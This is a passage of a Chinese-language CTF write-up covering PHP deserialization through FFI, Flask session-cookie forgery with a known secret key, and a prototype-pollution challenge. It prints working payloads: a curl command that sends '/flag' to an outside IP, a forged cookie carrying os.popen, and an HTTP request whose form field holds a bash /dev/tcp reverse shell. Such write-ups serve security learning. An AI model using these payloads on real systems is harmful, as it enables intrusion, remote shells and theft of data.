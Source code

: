 ```php
echo serialize($a);
```

```
$a=unserialize('C%3a1%3a"A"%3a97%3a{a%3a3%3a{s%3a3%3a"ret"%3bN%3bs%3a4%3a"func"%3bs%3a9%3a"FFI%3a%3acdef"%3bs%3a3%3a"arg"%3bs%3a34%3a"int+php_exec(int+type,+char+*cmd)%3b"%3b}}');var_dump($a->ret->php_exec(2,'curl%208.142.93.103/`cat%20/flag`'));
```

`所以以后在拿到配置文件要好好读，每一个文件都是有用的!!!`

生成cookie必须使用一下这个文件

```python
from flask.sessions import SecureCookieSessionInterface

secret_key = "cded826a1e89925035cc05f0907855f7"

class FakeApp:
    secret_key = secret_key


fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
cookie = serializer.dumps(
    {"history": [{"code": '__import__("os").popen("cat flag.txt").read()'}]}
)
print(cookie)
```

我发现网上的脚本对于python3.6+版本支持不行，最好大家还是使用python3.6或者3.5

## 0x09 [网鼎杯 2020 青龙组]notes

这个题目 其实我最开始猜测考点有两个地方

![image-20220102002011574](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102002011574.png)

看着有点像是模板渲染。但是这里的命令执行太明显了

![image-20220102002039928](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102002039928.png)

有一个遍历，配套的就只要成功的原型链污染，我一搜那个我没见过的模板，全网都是他的原型链。

```
POST /edit_note HTTP/1.1
Host: ba12a62e-bb4b-479d-8296-6e466d138ef7.node4.buuoj.cn:81
Content-Length: 71
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ba12a62e-bb4b-479d-8296-6e466d138ef7.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://ba12a62e-bb4b-479d-8296-6e466d138ef7.node4.buuoj.cn:81/edit_note
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6
Cookie: UM_distinctid=.eJyrVspMUbKqVlJIUrJS8g20tVWq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVEpMyQWK6yiVFqcW5SXmpsKFagFiyxgX.Xp7n9g.Wrfpp0DVY6_pH_mpD3_l6nNTpWU
Connection: close

id=__proto__&author=bash+-i+>%26+/dev/tcp/ip/80+0>%261&raw=jj
```

